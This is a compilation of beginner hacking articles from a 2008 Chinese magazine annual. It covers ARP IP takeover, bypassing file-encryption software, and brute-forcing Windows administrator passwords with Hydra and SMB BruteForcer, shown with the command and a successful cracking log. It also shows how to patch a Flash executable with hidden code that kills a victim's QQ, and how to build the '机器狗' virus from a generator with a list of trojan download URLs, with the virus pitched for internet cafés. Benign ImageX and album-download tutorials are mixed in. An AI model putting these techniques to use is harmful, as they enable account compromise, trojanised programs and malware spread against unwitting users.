即使对方的防火墙屏蔽ICMP回送/请求报文，也能正常获取，因为ARP协议工作在OSI的链路层。当然这个操作得在我们占用对方IP前使用，待占用得手后再更改（更改本机MAC操作：本地连接——右键——属性——配置——高级——Network Address处填入你需要改的MAC即可；也可以打开antiarp防火墙——工具——设置——网络——手动设置中修改，如图4）。到这里占用IP的工作就完成了，那些基于IP与MAC的ACL从此成为历史。希望大家不要乱设，特别是将本机IP设置为和网关一样，小心BOSS找你麻烦哟。


图4

（本文所涉及到的antiarp防火墙已收录到光盘中）

## 移动加密破解破解


前几天正在无聊的时候，一个朋友急匆匆的跑来我找我，说他的U盘被软件加密过了，但是现在密码忘记了，于是来找我求助。好歹也是看过三年X档案的菜虫了，加上我也想试试自己的水平，于是就答应了下来。

上网搜索了一下，简介够牛的：“加密数据的保密性极高，U盘和移动硬盘加密后，不解密任何人无法看到和使用你的数据”。不过凭着不怕死的菜虫精神，我还是坚持了下来。


图1

粗略的看了一下，那个U盘超级加密是依靠软件与密码进行加密解密的，首先试着输入123456期待软件有错误提示以便进行反汇编，但是这个软件没有弹出提示，如图1。


图2

一种方法不行就换另一种吧，这次使用CMD试试。但是事实是残酷的，CMD窗口里只有一个UDE.EXE，但是占用空间的不同引起了我的注意，请注意图2和图3的比较。


图3

由此可以看出，加密过的文件是被隐藏在U盘里了，不过究竟是怎么隐藏的呢？大家可能已经猜想到了，是的，就是文件名命漏洞！根据我的想法，我下载了一个U盘超级加密，安装了FILEMON，在电脑上进行了一次测试。打开FILEMON，关闭一切不必要的程序，对一个图片文件进行了加密，使用FILEMON进行了监控，得到了以下的数据，如图4。

看见那个“h:\...\  ?.\”目录了没有？那就是加密图片被保存过的位置，不过想进入这个目录是不可能的事情，这时候我想起了FINAL DATA的恢复数据，于是找来了FINAL DATA，果然不出所料，FINAL DATA找出了加密图片的位置，将其保存到其它的盘符即可完成破解，如图5。

有一个加密软件，你顺便帮我破解了吧。”晕了，这破解还有买一送一的吗？无奈之下，只好继续开始破解之旅。

这次是“光盘加密大师”，下载了该软件，粗略的看了一下，没有发现什么显密的漏洞，也罢，自己搭建一个平台测试一下吧。

使用WINISO修改了一下大师自带的示例光盘ISO文件，加入了一个目标文件，选择加密写入密码保存后退出软件。使用DEAMON TOOLS载入镜像，运行时弹出了一个对话框，要求输入密码，随便输入发现又弹出提示，于是使用OD载人，可惜这个软件的密码并不是明码储存在内存里面的，反汇编无功而返。

试着使用CMD进入，发现居然成功了，文件也可以进行复制，大功告成，我得意的放入光盘，输入cd 隐藏目录，结果发现里面什么都没有，难道是哪里出了问题？我不甘心地输入cd 正常目录，居然进去了，原来朋友设置的是隐藏正常目录而显示隐藏目录，但是我们如何得知究竟哪个是隐藏目录呢？这里又要用到FINAL DATA了。

使用FINAL DATA扫描镜像，此处注意，不要等FINAL DATA扫描完成，即使扫描完成了，恢复出来的数据也是不可用的，我们只需要扫描1—2秒后取消，得到文件所在的真正路径（即FINAL DATA显示出的文件夹路径，如图6），然后在CMD下进入该文件夹复制文件即可。

但是如果在CMD下复制的话太耗费时间，因此我们可以建立一个共享，在CMD下输入net share gongxiang=i:\隐藏文件，然后在运行中输入\\127.0.0.1\gongxiang就可以打开共享窗口。怎么样，文件是不是出现了，而且我们可以复制出来，至此，对“光盘加密大师”的破解成功结束（图7）。


在破解的过程中走了一些弯路，但庆幸的是最后终于完成了破解，另外再告诉大家一个技巧：当你使用一切手段都无法恢复文件的时候，使用GHOST给加密盘做一个备份镜像，然后使用GHOST EXPLORER载入就可以看到加密后的文件了。朋友看到这里，犹如看到了肉鸡一样兴奋，抓着我就说：“我还破解这两个软件没有什么技术性，只是一个思路，刚入门的菜鸟可以看看，高手就免了吧。最后再提醒一下，这种方法不是对任何加密软件都有用，不要随便乱套用方法。

（本文所涉及到的Filemon和FinalData已收录到光盘中）

## 内网攻击之在线密码破解

杨哲/Christopher Yang【ZerOne】

对很多新手而言，在成功进入对方内网后，比如一些安置还原卡的实验室、网吧环境或者公司内部所谓的内外网隔离环境，都会出现不知从何入手的情况，再加上一些打了所有补丁的WindowsXP，溢出之类的直接攻击基本已经没有了可能，在这种情况下除了嗅探之外，也可以进行在线密码破解。下边我就带各位小菜来看看在进入对方内网后，如何对Windows系统的账户密码进行在线破解的步骤。

Hydra，是由著名黑客组织THC出品的一款可以根据需要对SMB、SSH、SMTP、Telnet、SQL、FTP等各类主流服务进行在线密码尝试攻击的工具，有Windows和Linux两个版本。在其官方主页上只有一句评价：“A very fast network logon cracker which support many different services”。我们可以在http://freeworld.thc.org/thc-hydra/下载到hydra的不同版本。本文我们使用在Linux版本基础上改进的图形化版本HydraGTK。

步骤1：打开Hydra的图形版本HydraGTK，在Single Target栏中输入攻击内网目标的IP地址，若想同步查看攻击效果，需要点选下方的Show Attempts（图1）。

步骤2：打开Passwords栏，在Username里填写预攻击目标账户，我们以administrator也就是管理员账户为例，输入administrator（图2）。若不确定目标管理员用户名，也可以编辑用户帐户名文本文件，直接导入即可。

接下来，点选Password List选项，在弹出的浏览窗里选择事先制作的密码字典文档（图3）。


图1


图2


图3


图4


图5

步骤3：选择Start项，点击左下角的Start按钮就开始破解了，可以看到在工具观察窗口里会实时显示出详细的破解过程（图4）。

根据目标计算机的账户密码强度不同及字典的设置，破解时间会差距很大。图5为破解成功的界面，黑体字中给出了目标账户的密码。

作为功能强大的Hydra，其图形版本HydraGTK继承了全部的功能，但个人认为Shell下的版本工作更稳定些。

图6为Hydra支持的密码攻击服务或协议，其中甚至包含了一些出名的特定程序如PCanywhere、VNC等。该工具的意义因人而异，这里就不再一一举例。

在实际的测试过程中，对于破解目标计算机系统账户登录密码，Hydra有时候会出现假死的情况，这往往是因为目标计算机采用了安全设置的缘故，比如Windows XP的审核策略。所以，黑客们也会使用其它工具来反复尝试，我再推荐一款在线破解Windows密码的工具套装The SMB Auditing Tool。

The SMB Auditing Tool，也称为SMBAT，是一款专门对采用SMB环境及Windows密码审计的专业工具套装。其中的SMB BruteForcer是一款通过SMB下来对Windows2000/XP进行快速密码审计的工具，支持使用字典模式来对Windows 2000/XP进行破解，最高可达1200/秒。其攻击效率较之Hydra的SMB破解方面更高，并且不会轻易中断，支持破解结果以文本方式输出。这就意味着你也可能只在数分钟内，通过一个尽可能全面的大容量字典来实现对服务器进行的密码破解攻击。关于字典的制作可以参考《黑客X档案》以前的文章。

下面为Windows版SMB BruteForcer参数界面。


图10。

此类的在线破解工具有很多，甚至可以针对路由器的登录密码进行在线破解，有兴趣的朋友可以继续学习研究，这里就不再深入举例。


```
具体攻击命令:
smbbf -v -i 192.168.75.36 -p wordlist.txt -u user.txt -f out.txt
参数解释:
-v 设置为过程可见.
-i IP 指定目标IP地址.
-p 文件 是预先制作好的密码字典文件.
-u 文件 导入包含用户名的文件.
-f 文件 将破解结果输出至某个文件.
注意: 后面跟服务名称 在 windows下进行在线破解时,需要输入对方计算机名.
```

如图7所示是对内网一台Windows2000系统进行密码破解中，经过5分钟左右的尝试，成功得到了目标主机administrator的登录密码，破解速度为115个/秒，如图8。这个破解速度会随着硬件设置以及操作系统版本的不同有所区别。

对于同样的目标，在Linux平台下，经过近2分钟的尝试，就成功得到目标主机administrator的登录密码，破解速度为650个/秒，如图9。

最后的破解结果也可以保存到文件中，方便直观查看，如


2008 合订本上卷

傻瓜黑客

| 服务 |
|---|
| cisco-enable |
| cvs |
| ftp |
| http-head |
| http-get |
| http-proxy |
| https-head |
| https-get |
| https-form-get |
| https-form-post |
| icq |
| imap |
| imap-ntlm |
| ldap2 |
| ldap3 |
| mysql |
| nntp |
| pcanywhere |
| pop3 |
| pop3-ntlm |
| postgres |
| rexec |
| rlogin |
| rsh |
| sapr3 |
| smb |
| smbnt |
| smtp-auth |

```
Access denied
logging in as administrator with abrwnata on OFFICE
Access denied
logging in as administrator with abrunate on OFFICE
Access denied
logging in as administrator with abrwnati on OFFICE
Access denied
logging in as administrator with abrwmato on OFFICE
Access denied
logging in as administrator with abrwmava on OFFICE
Access denied
logging in as administrator with abrwmavi on OFFICE
Access denied
logging in as administrator with abrwmavо on OFFICE
Access denied
logging in as administrator with abrwmera on OFFICE
Access denied
logging in as administrator with abrwmerai on OFFICE
Access denied
logging in as administrator with abrwmerel on OFFICE
Access denied
logging in as administrator with abrwmero on OFFICE
Access denied
logging in as administrator with abrwmert on OFFICE
```

```
Access denied
logging in as administrator with detectable on OFFICE
Access denied
logging in as administrator with detectable on OFFICE
Access denied
logging in as administrator with detectable on OFFICE
Access denied
logging in as administrator with detectaphone on OFFICE
Access denied
logging in as administrator with detecter on OFFICE
Access denied
logging in as administrator with detectible on OFFICE
Access denied
logging in as administrator with detection on OFFICE
Access denied
logging in as administrator with detective on OFFICE
Access denied
logging in as administrator with detective on OFFICE
User:administrator Password:detection

-- Password Statistics --
Total tries 69918 in 607.91 seconds
Tries per second = 115.01
Total accounts 1, compromised 1, disabled 0
Penetration ratio = 100.00 %

F:\Tools\Nts\smbat-win32bin-1.0.4\>
```


# 傻瓜黑客

2008合订本上卷


对于采用了有规律可循密码的用户，比如生日、电话号码、身份证号码、常用单词及简单组合等密码，对此类在线攻击应引起足够的重视。一旦黑客破解了帐户密码，就可以进一步的渗透及破坏，所以应采取谨慎的态度进行个人密码设置，必要时可以通过在组策略中启用密码复杂性设置来强化密码设置安全，不要给恶意的攻击者可乘之机。
（文章中涉及到的工具 HydraGTK、SMB Bruteforcer 已经收录在光盘中）

## 蓦然齐莱认识ImageX——革命Ghost的命！

RGB(0,0,0)K

ImageX？啥家伙？可能许多小菜都不认识它。当然是不认识了，认识了还干嘛要别人来介绍呢？但它的来头可不小哦——Microsoft 封装 Vista 这个庞然大物就是靠它那几百 KB 的个头来完成的（图1）！


图1

### 一、ImageX为何欲革Ghost的命？

ImageX 产生的 WIM 映像（Microsoft Windows映像格式）有如下几个突出的优点：
1. WIM 映像格式是硬件不可知的，这意味着只需要一个映像就可以满足许多不同的硬件配置。
2. 此格式通过使用压缩文件格式和单一实例存储技术显著降低文件的大小，对于映像文件中某个文件的每个实例，映像文件只包含这个文件的一个物理副本，即单一实例存储技术。
3. 可以使用类似 Windows 资源管理器一类通用的界面将映像安装为文件夹，从而更容易地更新映像中的文件（也就是使用 ImageX 的可写挂载映像功能）。
使用 ImageX 与 Ghost 比较一下，就会发现 Ghost 主要有以下三个缺陷：
1. Ghost 太“死板”了：Ghost 是基于磁盘扇区（Sector Based）的传统备份还原工具，基于扇区的映像操作通常要求不同计算机具有同样的硬件抽象层（Hardware Abstraction Layer, HAL），简单来讲就是同一个 Ghost 文件不适用于硬件配置不同的计算机。而 ImageX 产生的 WIM 映像是基于文件（File Based）的，使用时允许计算机有不同的硬件抽象层。相对于 Ghost 来讲，ImageX 更具灵活性。
2. Ghost 太“野蛮霸道”了：基于扇区的映像还原操作要先擦除目标分区上现有的数据，然后才能进行还原。这就决定了 Ghost 不允许映像文件存放在目标还原分区里进行操作。再说，还原时不小心选错分区造成数据丢失的情况也不是没有。这就是 Ghost 的霸“道”之处！而使用 ImageX 我们可以指定只“备份”或“恢复”哪些文件和文件夹，而不用理会其它文件和文件夹。特别的，我们甚至可以将产生的映像文件储存在欲备份或还原的分区中（这可是史无前例的噢，各位小菜是不是傻了眼 o_O）。

3.Ghost 太“软弱“了：Ghost 和 ImageX 创建映像文件时都提供了三种模式：不压缩、快速、最大压缩。但是 ImageX 的压缩强度比 Ghost 要大，一个有3.1G大小的 Vista 操作系统（精简过才这么小的），经过 ImageX 的“最大压缩”（实际是运用单一实例存储技术）后，生成的 WIM 映像体积仅有740MB（为 ImageX 尽情鼓掌吧），而换为 Ghost 的话，就不必说了吧！好了，讲了这么久，ImageX 怎么用还不知道呢！

### 二、让ImageX上岗，Ghost下岗！

ImageX 是一个命令行程序，因此要从“命令提示符”里运行它。以下是我们最常用到的3+1个功能，其它功能大家可以使用 ImageX /?命令去查看。

1.创建映像：“创建映像”就是创建系统备份映像，命令格式（经过中文意思转换，下同）为 ImageX [FLAGS] /capture 需备份的目录 映像保存的路径和文件名 ["文件描述"]。其中 FLAGS 是一个附带的参数，包括 /BOOT、/CHECK、/COMPRESS、/CONFIG、/NORPFIX、/SCROLL、/VERIFY 等。我们现阶段用到的只有 /COMPRESS（压缩）。知道了命令就可以实战一下了。
切换到 ImageX 所在的目录，执行以最大压缩 maximum（其它参数还有不压缩 none 和快速 fast），备份 D 盘的 Vista 操作系统 ImageX /COMPRESS maximum /capture D: E:\Vista.wim "Win Vista"（图2）。


图2

12

式。其实这些信息原本是以XML文件的形式保存的。我们只要将“<WIM>”前面的内容去掉，保存成文本文档，再将扩展名改为XML，就可以变成这个映像的信息文件了（图6）。


从上图中可以看出使用ImageX备份时，会开始扫描目录里的所有文件和文件夹，然后自动排除系统的页面文件、休眠文件等——真不愧是个天生的系统备份（封装）工具！但是，如此高强度的压缩是要付出时间的代价（图3）。这也与系统包含的文件数目有关，数据多了就得慢慢比较。在图2中显示备份时系统有三万多个文件，六千多个文件夹。尽管很花费时间，但ImageX作为备份还原软件的优势还是非常突出的，我平常备份一次XP系统连4分钟也用不到。

ImageX不仅可以备份一整个分区，还可以只备份Windows文件夹或其它目录（这绝对是Ghost办不到的）。命令为ImageX /COMPRESS /maximum /capture D:\Windows E:\Vista.wim "Win Vista"，命令也是大同小异的，可以随便扩展。

2.追加映像：“追加映像”就是将系统的所有文件备份到一个已经存在的WIM映像中并“覆盖”其同名文件。这个功能的命令为ImageX /append 需备份的目录 映像保存的路径和文件名 ["文件描述"]。

备份Vista系统到安装映像中可以使用如下命令（假定安装映像在E:\install.wim）ImageX /append D: E:\install.wim "Win Vista"。有流传说使用这个方法备份Vista（方式同上）所占用的硬盘空间不会超过200MB，我想这得看机子里有多少种不同的文件再说，即使有“技术”也不能乱盖啊！但这样备份产生的映像体积确实很小。

3.应用映像：“应用映像”是将系统备份映像释放到系统分区，进行还原操作。有备份就有还原，命令如下ImageX [FLAGS] /APPLY 映像保存的路径和文件名 映像卷数 释放的路径。咦！怎么有个“映像卷数”呢？噢，忘记告诉大家了，其实一个WIM映像可以包含许多个分卷，假如将Vista和XP备份在同一个WIM文件里，这是可以办到的（咋越说越强大了），不过要用到上述的高级功能，还需要了解许多参数。由于我们刚才备份时没有输入与分卷有关的参数而且备份后也只有一卷（默认卷号为“1”），那么在还原时就要用“1”这个卷数。即命令为ImageX [FLAGS] /APPLY E:\Vista.wim 1 D:(图4)。

Vista的安装映像install.wim中包含了多个分卷，安装时选择不同的分卷就有不同的版本。秘密啊，不要告诉别人哦！那该怎样得知WIM映像有哪些分卷呢？

4.查看信息

查看映像信息的命令是ImageX /info 映像的路径及文件名，回车后就会看到如图5所示的结果。从中可以看到该映像卷数、压缩方式、描述等等。小菜们有没有看到映像的信息是被“<XXXX>”和“</XXXX>”夹着的，有点像HTML代码的形


```
<WIM>
    <TOTALBYTES>1202994155</TOTALBYTES>
    <IMAGE INDEX="1">
        <NAME>Win Vista</NAME>
        <WINDOWS>
            <ARCH>0</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>9</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>0</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>9</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>0</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>9</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>0</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
        <WINDOWS>
            <ARCH>9</ARCH>
            <PRODUCTNAME>Microsoft® Windows® Operating System</PRODUCTNAME>
            <PRODUCTTYPE>WinNT</PRODUCTTYPE>
            <PRODUCTSUITE>Terminal Server</PRODUCTSUITE>
            <LANGUAGES>
                <LANGUAGE>zh-CN</LANGUAGE>
                <DEFAULT>zh-CN</DEFAULT>
            </LANGUAGES>
            <VERSION>
                <MAJOR>6</MAJOR>
                <MINOR>0</MINOR>
                <BUILD>6000</BUILD>
                <SPBUILD>16386</SPBUILD>
                <SPLEVEL>0</SPLEVEL>
            </VERSION>
            <SYSTEMROOT>WINDOWS</SYSTEMROOT>
        </WINDOWS>
    </IMAGE>
</WIM>
```


# 傻瓜黑客

利用 WIM 映像不仅可以备份还原系统，还可以打造自己的系统安装盘。一个真正的安装盘，不像 Ghost 那样把文件塞进分区里就算了。可以往映像里面集成驱动、补丁、语言包，还可以实现无人值守安装，自动输入序列号……功能太多了，ImageX 不想革 Ghost 的命也不行啊！

使用原版的 ImageX 就介绍到这里，上述还有“挂载”的功能和其它功能就让小菜自己去研究吧，也只不过是按命令格式来使用罢了！

### 三、ImageX 的“GUI 程序”

如果哪位小菜不喜欢“黑乎乎”界面的话，还可以使用有 ImageX 功能的 WimTool（图 7）。WimTool 是基于 WIMGAPI SDK（ImageX 的部分组件）开发的 Win32 程序，运行前要安装 WimTool 运行库。使用 WimTool 可以很方便地对 WIM 文件进行挂载、修改、创建、分割、查看信息等全功能操作，绝对适合懒人。其界面如图 8 所示。


图 7


图 8

具体操作请看其中的说明，保证“WimTool，人人都会用”。使用过 WinMount 的朋友也都知道 WinMount 可以挂载 WIM 映像吧！但是使用 WinMount 挂载 WIM 映像时会很慢，文件超大时（例如 3.82G）更会造成死机（亲身经历），其速度及稳定性都不如 ImageX 或 WimTool。为 ImageX 或 WimTool 指定目录后，它们仅用了一两秒就完成了挂载。ImageX 和 WimTool 果然是处理 WIM 映像的专业软件。

最后提醒一下各位小菜，别以为 ImageX 是个备份还原（系统封装）软件就小看它——WIM 映像将会成为主流的系统映像格式哦。而且研究它丝毫不比入侵一台服务器简单，讲多了我也会觉得头痛 @_?……功能实在太丰富了！各位小菜就好好研究一下吧，不研究哪有阶可进。

（本文所涉及到的 ImageX 和 WimTool 已收录到光盘中）

## 小小逆向工程整美眉

我爱大饼

逆向工程，对于很多人来说是很难理解的。今天我就手把手教大家怎么使用逆向工程整美眉。

哦哦，开始前先讲一下思路，大家只要明白思路再拓展开来就会有很多意想不到的收获哦。我们在一个正常合法的程序上附加一段代码，通过修改原程序的入口点跳到我们加的那段代码上，执行完成我们的代码之后再跳回原来那个正常程序继续执行。

需要的工具就是 Peid（侦壳工具）、OllyDebug（动态反汇编工具，以下简称 OD）和 LordPE（一个修改程序入口的工具）还有一个精彩的 exe 格式的 Flash。

举个简单的例子，目的是在 Flash 播放时，美眉的 QQ 自动退出。完成这个功能要用到一个系统命令 taskkill /im QQ.exe /f，还要调用一个 WinExec 函数，这个函数的定义是运行一个指定的应用程序，即我们刚才的那个系统命令。WinExec 函数有两个参数，第一个是命令行，第二个是应用程序的窗口（当然是隐藏即 SW_HIDE）。

使用 Peid 检查 Flash 的壳，没有加壳（图1）。


图 1

我们要用的是它的另外一个功能：在 Flash 中找一段 0 区域来写入我们的代码。单击“EP 段”右边的“<”按钮打开“节查看器”（图 2）。


图 2

按鼠标右键选择“搜索全 0 处”，弹出一个“全 0 处信息”（图 3）。一共有 4 个空段，在里面我们只需记住“RVA”，RVA + 基址400000=内存偏移地址（即后面我们要用的 OD 的地址）。现在选取 text 段的 0 区域，RVA 为 0013CC98，RVA + 基址400000 = 0053CC98 就是 0 区域的起点。


图 3


打开 OD 载入 Flash，OD 停下，记住程序模块入口 004DC300（图 4），我们

图 4

| 名称 | V.偏移 | V.大小 | R.偏移 | R.大小 | 标志 |
| ---- | ---- | ---- | ---- | ---- | ---- |
| .text | 00001000 | 0013CC98 | 00000400 | 0013D000 | 60000020 |
| .rdata | 0013E000 | 0000170C | 0013D400 | 00001800 | 40000040 |
| .data | 00140000 | 00001558 | 0013EC00 | 00000200 | C0000040 |
| .rsrc | 00228000 | 00015918 | 00163000 | 0001F000 | 40000040 |

| 节 | RVA | 偏移 | 大小 |
| ---- | ---- | ---- | ---- |
| .text | 0013CC98 | 0013CC98 | 00000368 |
| .rdata | 00154CBA | 00154CBA | 00000376 |
| .data | 00162E98 | 00162E98 | 00000168 |
| .rsrc | 00246909 | 00181909 | 000006F7 |

等下要跳回来哦。按“Ctrl+G”在弹出的输入框中输入刚才那个0区域的起点即0053CC98，点确定后快步来到0区域。不要在起点这里写，向下3行来到0053CC9B（图5）。再把字符串“taskkill /im QQ.exe /f”写入这个地址，很显然这个地址不够写，就往下拉一块区域，然后点击“二进制编辑”，写入代码（图6）。我们不能把字符串压入堆栈，只能压入存放字符串的地址，所以等下把存放这些字符串的首地址压入就行了，即压入0053CC98（记住这个地址）。


继续往下跳3行来到0053CCB7（这个地址成了新程序的入口），现在我们要调用API函数，而API函数是从右到左调用的，即反过来，我们就要把第二个参数先压进去。先写“PUSH SW_HIDE”（也可以是PUSH 0，数字0代表SW_HIDE），再到“PUSH 0053CC9B”（压入刚才写字符串的首地址），最后“CALL WinExec”，再来一个大跳转回到原来程序的入口即“jmp 004DC300”，写完后如图7所示。


最后鼠标左键拉取全部已经修改过的代码，按右键依次选择“复制到可执行文件”——“选择”，保存退出OD。再将刚才PUSH 0的那个地址作为新程序入口，使用LordPE修改保存后（图8）运行一下，QQ自动退出，Flash精彩播放，嘿嘿。


大家拓展一下，添加帐号，开启端口，删除文件什么的都可以。“不过可千万不要玩过火哦，适适美眉就可以了。（本文所涉及到的Peld、OllyDebug和LordPE已收录到光盘中）

### 破解“密码最长存留期”

牟晓东

由于需要设置全国计算机等级上机考点，最近几天我开始忙着整理微机室。因为上一次备考整理完毕后已经使用Ghost软件做好了.gho文件的系统备份，所以这次设置没费什么力气，直接将上次的.gho文件覆盖进行恢复就行了。谁知在调试过程中却出现了问题：所有的学生机工作站在“网上邻居”中均无法访问服务器K99，出现的提示是“无法访问\K99，此用户的密码已经过期。”（图1），但学生机之间的相互访问以及服务器K99访问学生机是完全正常的（这说明网络是通的），这是怎么回事呢？

所有的电脑安装的都是Win2000系统，根本不存在高低系统之间的访问等级问题，而且，为了操作方便，学生机访问服务器都使用超级用户Administrator和空口令，怎么会提示密码过期呢？后来经过查证，原来问题出在操作系统的“密码最长存留期”上。打开服务器K99的“控制面板”-“管理工具”-“本地安全设置”，在弹出的窗口的左侧单击“安全设置”-“帐户策略”-“密码策略”，然后双击右侧窗口中的“密码最长存留期”项（图2），Windows默认的“密码作废期”是42天，而每年两次的全


国计算机等级考试时间间隔是半年；已经远远超出了这个时间，所以就会出现“此用户的密码已经过期”的提示。

找到问题的根源后，解决的方法就简单了，为了以后可以方便地进行.gho文件的恢复，所以应该将这个42天更改为“0天”，最后确定即可，问题果然迎刃而解。如果大家也碰到过类似的故障，不妨一试。


## 主流相册批量下载

叉子们在网上混了这么久都应该有自己的空间吧，为了搞好自己的空间，叉子们可是费劲心思，每天都在各个地方“淘宝”。文章、图片都是我们常常COPY的对象。别人空间的图片都十分漂亮，难道我们就一张一张的下载吗？这可不是叉子的作风，今天我就教大家如何批量下载图片。

### 一、QQ相册

我们打开QQ相册下载工具，在“确定”按钮的旁边输入你要下载图片的QQ号码，单击“确定”按钮后，就会出现该QQ的各个子相册（图1），点击你要下载的相册，然后点鼠标右键，就会出现“下载该相册”，点击它，过了一会儿，就会在你的QQ相册下载工具的目录下建立一个以你要下载图片的QQ号码为名字的文件夹，而你下载的图片就在这里了（图2）。


### 二、百度空间

百度空间由于它的稳定和免费，也是我们常用的空间之一。打开百度批量下载工具（图3），需要我们输入要下载的空间的用户名，在空间头像下方，有该相册的各个子相册。我们点击它会在旁边出现该相册里的相片，点击相片，就会在左下方出现该图片的预览图。选择自己喜欢的图片下载，在相片上点反键就可以下载了（图4）。


### 三、网易相册

网易相册最大的特点就是空间没有容量限制，上传和浏览


速度都很快，所以它也是网友常用的相册。我们打开 AlbumCon，这个就是用来下载网易相册的工具。

在相册服务器中选择网易，在下方的用户名里填入要下载的帐号，填好后单击“获取目录”，就可以得到该用户的相册信息了（图 5）。

我们双击其中一个目录就可以转到图片列表来查看该相册里的图片了。图片缩略图可以在右方看到。AlbumCon 不仅能直接下载，还可以调用迅雷来下载而且速度非常快的（图 6）。

现在各位叉子知道怎么下载图片了吧，看见好的图片一定不要错过，一定要统统搬回“家”哦！

（本文所涉及到的 QQ 相册快快下载、百度相册下载和AlbumCon 已收录到光盘中）


## 和我一起 DIY 机器狗

石头

机器狗是个针对网吧的病毒，可以破坏还原系统，下载大量木马，而且可以通过局域网进行传播，一台电脑中招，就能引发整个网络内的电脑全部自动重启。这么厉害的病毒，有人已经编译了代码，公布了生成器，我们小菜当然不能错过了。

机器狗生成器的使用很简单，运行后在 URL 处填上你所要下载木马的文件列表地址，注意这里是列表地址，不是木马地址，而且这个 URL 的长度不能超过 23 个字节（图 1）。

```
机器狗生成器
URL: http://www.stone.net/files.txt
生成
注意：URL 不能超过23个字节。
个人主页：http://hi.baidu.com/naitm BY: naitm
图 1
```

这个列表可以使用 TXT 文本制作，一行是一个木马的下载地址（图 2）。输入完后保存文档，把你要下载的木马和列表文件一并上传到空间中去。点击“生成”按钮，提示生成病毒程序

```
机器狗生成器
文件(F) 编辑(E) 格式(O) 查看(V) 帮助(H)
http://www.hackerxfiles.net/1.exe
http://www.hackerxfiles.net/2.exe
http://www.hackerxfiles.net/3.exe
http://www.hackerxfiles.net/4.exe
图 2
```

rodog.exe（图 3）。至此机器狗病毒就生成完了，你可以带到机房或网吧中使用。

关于机器狗的免疫补丁，现在网上好多都已经失效了，比如绿茶、小哨兵版本补丁、康禾科技补丁等，这些补丁因为病毒变异、与其它程序冲突等原因不推荐使用，在光盘中提供了几个最新的免疫补丁供大家使用，小心不要被自己的狗咬到。

（本文所涉及到的机器狗生成器和免疫补丁已收录到光盘中）

```
